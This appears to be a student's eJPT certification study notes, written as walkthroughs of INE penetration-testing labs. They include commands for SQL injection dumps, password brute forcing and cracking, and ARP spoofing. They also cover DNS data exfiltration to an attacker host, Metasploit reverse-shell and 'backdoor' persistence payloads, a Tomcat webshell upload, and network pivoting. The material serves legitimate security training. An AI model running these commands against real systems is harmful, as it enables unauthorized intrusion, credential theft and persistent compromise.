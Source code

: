 ## eJPT 🛠

Hey Hai, This is just a walkthrough and kinda recap of what in learnt during my INE prep course for Ejpt

### Inbuilt Labs
#### HTTPS Traffic Sniffing
- Once can actually sniff HTTP traffic only in clear using wireshark, we cant examine the HTTPS traffic
- Follow TCP Stream 
#### Find the Secret Server
- sudo ip  route add 192.168.222.0/24 via  10.175.34.1     [sudo ip route add ip/subnet via gateway]
- sudo ip route add 0.0.0.0/0 via 192.168.1.1
#### Data Exfiltration
- Configure the DNS server as attcker IP for Victim machine
- https://github.com/TryCatchHCF/PacketWhisper
- Open python server on attacker machine
- Download the zip on victim machine and run it
- We are good to exflitrate data ;)
#### Burp
- Inspect the website, from that we can able to discover robots.txt
- Using sniper from burp, check all the directories availibility
- Which reveals connections directory as 200, and ?debug is parameter that we came around robots.txt
- Playing around with parameter reveals it can only be set to true
- Set it to true, gives sensitive information back
- Fixing the In Scope
- Target > Site map tab > Spider this host
- Try to bypass the login, using intercept or any other means
- Intruder option and thier positions to attack
#### Scanning and OS Fingerprinting
- fping -a -g 10.142.111.0/24 2> /dev/null
- nmap -sn -n 10.142.111.*    [There is probably a host that does not respond to ICMP echo requests, but that has a service listening on the network.]
- nmap -sS 10.142.111.1,6,48,96,99,100,213  [SYN Scan on Alive Hosts]
#### Nessus
- Advanced Customized Scan
- DISCOVERY -> Host Discovery settings -> Use Fast Network Discovery
#### Dirbuster
- dirb http://172.16.64.140/project/ -u admin:admin 
- gobuster dir -t 50 --w /usr/share/wordlists/dirb/common.txt --url http://172.16.64.81/ -x /,php,txt,bak,old,html,xx
- ffuf -w /usr/share/wordlists/dirb/common.txt -u http://172.16.64.81/FUZZ
#### Sql Injections
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --dbs --dump
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin --tables
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login --coloumns
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login -C username,password,logintime
- Intercept the request using burp, save it to req.txt
- sqlmap -r req.txt -p title  -> focusing cookie based sessions and multi-parameter based queries
#### Brute Force
- hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid Credentials" -L  /usr/share/username.lst -P /usr/share/pass.lst -f -V
- unshadow passwd shadow > hashestocrack
- john hashestocrack     ->password      (username)
- /etc/login.defs  -> to check hashin used for passwords
- hashcat -m 1800 -a 0 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt
#### Null Sessions
- nmblookup -A ip-address
- smbclient -L //10.10.21.9 -N
- enum -S 10.1.25.26    [-S for shares; -U for users; -P for password policy;]
-  nmblookup -A 10.10.10.10
-  smbclient -L //10.10.10.10 -N (list shares)
-  smbclient //10.10.10.10/share -N (mount share)
-  enum4linux -a 10.10.10.10
-  smbmap -H demo.ine.local
-  smbclient //demo.ine.local/raymond -N   [check for every individual user]
-  enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local
#### ARP Spoofing
- echo 1 > /proc/sys/net/ipv4/ip_forward
- arpspoof -i tap0 -t 10.13.37.100 -r 10.13.37.101 [-t for target machine IP -r for web server address]
- -t flag -> the one who is posting data to some ip[r]
- we will be on the same network as the target and the web server
- wireshark -> file -> export -> smb2
#### Metasploit
- use exploit/windows/ftp/freeftpd_pass
- set ftpuser anonymous
- set rhosts 192.168.99.12
- set rport 21
- set payload windows/meterpreter/reverse_tcp
- set exitfunc process
- set lhost 192.168.99.100
- set lport 4444
- use exploit/windows/local/persistence
- set reg_name backdoor
- set exe_name backdoor
- set startup SYSTEM
- set session 1
- set payload windows/meterpreter/reverse_tcp
- set exitfunc process
- set lhost 192.168.99.100
- set lport 5555
- set DisablePayloadHandler false
- exploit -j
- search -f congrats.txt
- getsystem
- getuid

### The Black Box Walkthrough's : Box 1

#### Machine 1
- fping -a -g network id with mask 2>/dev/null
- naabu -p - ip address
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- tomcat Enumeration http:ip:port/manager/html  ->   [tomcat:s3cret]
- Which helps you to upload a .war file and deploy it on the web-server [jsp web shell]
- https://github.com/BustedSec/webshell/blob/master/webshell.war
- This will lead to RCE, confirimg the base os is linux
- Creating a meterpreter payload and listen using metasploit
-  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.16.64.10 LPORT=3211 -f elf > meter.elf
-  rename .elf to .war upload it, delpoy and this file can be relocated at /var/lib/tomcat8/webapps
-  mv /var/lib/tomcat8/webapps/meter.war /tmp/meter ls /tmp/meter chmod +x /tmp/meter
-  reverse shell at meterpreter listener

#### Machine 2
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- webserver on port 80
- dirb -u dirb http://172.16.64.140/  -> discovery a directory project, which requires uname and pass [rnadom pass admin:admin [correct]]
- dirb http://172.16.64.140/project/ -u admin:admin   [for further directory enum]
- revealed the flag path and DB credentials for next machine [fooadmin:fooadmin]
#### Machine 3
- Metasploit is ur bestie
- Search metasploit for sql version for scanners or exploits
- use auxiliary/scanner/mssql/mssql_login  [login check/bruteforce]
- use auxiliary/admin/mssql/mssql_enum     [enumeration]
- use exploit/windows/mssql/mssql_payload  [exploit]
- Gives us a meterpreter session

### The Black Box Walkthrough's : Remastered 1
#### Machine 1
- Enumeration reveals it's using V-CMS 1.0
- Search Metasploit, there will be an open exploit
- use exploit/linux/http/vcms_upload
- As mentioned it the question, the vcms server is connected to some other webserver on some other network

#### Machine 2
- cat /etc/hosts will reveal the other web server info/ or ifconfig will also gives info about the other network
- But, still we wont be able to ping the other network subnet
- run autoroute -s 192.69.228.0 -n 255.255.255.0 -> this adds route automatically to the meterprrter session
- route add 192.69.228.0 255.255.255.0 1  -> you can also use this where "1" is the meterpreter session id
- use auxiliary/scanner/portscan/tcp
- set PORTS 80, 8080, 445, 21, 22
- set RHOSTS 192.69.228.3-10
- exploit
- This will do a portscan on the remote network and reveals the open ports
- Then we need to portforward our local port to the remote port do a nmap scan
- portfwd add -l 1234 -p 21 -r 192.69.228.3  -> l [local port] p [parayvalla port] r [remote Ip]
- portfwd add -L [attacker machine IP] -l listening_port -p 80 -r [victim machine IP]
- nmap -sS -sV -p 1234 localhost
- This reveals a ftp service and version, using metasploit, we can find a inbuilt exploit, then boo tada


















